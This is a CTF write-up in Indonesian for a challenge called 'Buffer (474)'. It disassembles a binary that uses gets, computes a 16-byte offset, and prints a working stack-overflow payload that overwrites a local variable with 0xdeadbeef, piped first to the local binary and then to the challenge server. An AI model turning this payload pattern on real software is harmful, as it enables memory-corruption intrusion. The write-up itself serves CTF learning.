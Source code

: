 # Buffer \(474\)

> They say gets in C is not safe, can you guess it why?
>
> `nc 103.200.4.156 8360`

###### POC

Kami menggunakan GDB-Peda, untuk proses debugging

```
>> gdb -q ./buf
```

```
gdb-peda$ info functions 
All defined functions:

Non-debugging symbols:
0x080482ec  _init
0x08048320  printf@plt
0x08048330  gets@plt
0x08048340  system@plt
0x08048350  __libc_start_main@plt
0x08048360  __gmon_start__@plt
0x08048370  _start
0x080483a0  __x86.get_pc_thunk.bx
0x080483b0  deregister_tm_clones
0x080483e0  register_tm_clones
0x08048420  __do_global_dtors_aux
0x08048440  frame_dummy
0x0804846b  main
0x080484d0  __libc_csu_init
0x08048530  __libc_csu_fini
0x08048534  _fini
```

Okee.. lanjut ke fungsi **main** sekarang ^\_^

```
gdb-peda$ pdisass main
Dump of assembler code for function main:
   0x0804846b <+0>:    push   ebp
   0x0804846c <+1>:    mov    ebp,esp
   0x0804846e <+3>:    sub    esp,0x18
   0x08048471 <+6>:    mov    DWORD PTR [ebp-0x4],0x64
   0x08048478 <+13>:    mov    DWORD PTR [ebp-0x8],0xc8
   0x0804847f <+20>:    lea    eax,[ebp-0x18]
   0x08048482 <+23>:    push   eax
   0x08048483 <+24>:    call   0x8048330 <gets@plt>
   0x08048488 <+29>:    add    esp,0x4
   0x0804848b <+32>:    cmp    DWORD PTR [ebp-0x8],0xdeadbeef
   0x08048492 <+39>:    jne    0x80484b0 <main+69>
   0x08048494 <+41>:    push   0x8048550
   0x08048499 <+46>:    call   0x8048340 <system@plt>
   0x0804849e <+51>:    add    esp,0x4
   0x080484a1 <+54>:    push   0x804855e
   0x080484a6 <+59>:    call   0x8048320 <printf@plt>
   0x080484ab <+64>:    add    esp,0x4
   0x080484ae <+67>:    jmp    0x80484bd <main+82>
   0x080484b0 <+69>:    push   0x804856b
   0x080484b5 <+74>:    call   0x8048320 <printf@plt>
   0x080484ba <+79>:    add    esp,0x4
   0x080484bd <+82>:    mov    eax,0x0
   0x080484c2 <+87>:    leave  
   0x080484c3 <+88>:    ret    
End of assembler dump.
```

Dari address **0x0804848b **terdapat pengecekan local variable **$ebp-0x8 **dengan **0xdeadbeef**

Jadi tujuan kita adalah menempa value dari local variable **$ebp-0x8 **yang semula **0xc8** atau **200** \(desimal\) di ganti dengan **0xdeadbeef **agar lolos pada saat pengecekan di address **0x0804848b**.

* Pertama kita mengecek jarak dari variable yang menampung isi dari fungsi gets yaitu **$ebp-0x18** dengan local variable **$ebp-0x8**

```
gdb-peda$ distance $ebp-0x18 $ebp-0x8
From 0xffffffe8 to 0xfffffff8: 16 bytes, 4 dwords
```

* Lanjut kita bikin payloadnya, untuk menempa local variable tersebut

```
>> python -c "print 'A'*16 + '\xef\xbe\xad\xde'" | ./buf
/bin/cat: flag: No such file or directory
You got Me!!
```

* Okee berhasil.. tinggal di eksekusi ke server soal ctfnya aja wkw

```
>> python -c "print 'A'*16 + '\xef\xbe\xad\xde'" | nc {ip} {port}
```




